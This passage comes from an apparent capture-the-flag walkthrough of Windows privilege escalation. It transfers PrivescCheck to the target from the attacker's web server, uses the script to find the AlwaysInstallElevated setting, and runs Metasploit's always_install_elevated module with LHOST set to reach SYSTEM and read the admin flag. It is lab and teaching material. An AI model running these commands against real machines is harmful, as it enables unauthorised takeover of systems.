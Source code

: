 But after a few rabbit holes, I took a step back and watched [Windows Privilege Escalation Guide](https://youtu.be/w3v_ydcw3T4?si=llF_n2L0og3RkSon).

Which led to a new (for me) script called [PrivesCheck](https://github.com/itm4n/PrivescCheck).

![Download PrivescCheck Script](https://i.imgur.com/kWKbJc2.png)

If you're following along at home.

Start a Python Web Server with `python -m http.server 8000` where you download the script. 

![Transfer PrivescCheck Script](https://i.imgur.com/6LhBV1v.png)

Then on the Target Machine, put the script where you have write permissions. Like the Desktop or Temp.

You can use `wget http://$YOUR_IP:8000/$file -UseBasicParsing -OutFile $file` in PowerShell.

Go ahead and run the script `. .\PrivescCheck.ps1; Invoke-PrivescCheck`

Gotta say, I do like the output of PrivescCheck. An easy-to-digest summary is nice.

![PrivescCheck Summary](https://i.imgur.com/k4wFGdl.png)

So what's `AlwaysInstallElevated`?

Basically, it allows lower level users to install Windows Packages with system level privileges.

You see where this is going?

And luckily, [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation) has more info about it.

Would you look at that?

There's another metasploit exploit ready to rock for us. Lovely.

Exit PowerShell and go back to Meterpreter with `exit` and `exit`.

Then `bg` that session and type `use exploit/windows/local/always_install_elevated`.

![AlwaysInstallElevated Exploit](https://i.imgur.com/QWhWeN3.png)

Set the `options` for the exploit and `run`:
- `set LHOST $YOUR_IP`
- `set SESSION 1`

![AlwaysInstallElevated Exploit Options](https://i.imgur.com/iaY5jiw.png)

And look at that, `authority\system` user.

It's as good as being root on Linux... I think.

![AlwaysInstallElevated Exploit Running](https://i.imgur.com/LfNUgUb.png)

Then `cat C:\Users\Administrator\Desktop\admin.txt` for the admin flag.

![Admin Flag](https://i.imgur.com/RQWAVPO.png)
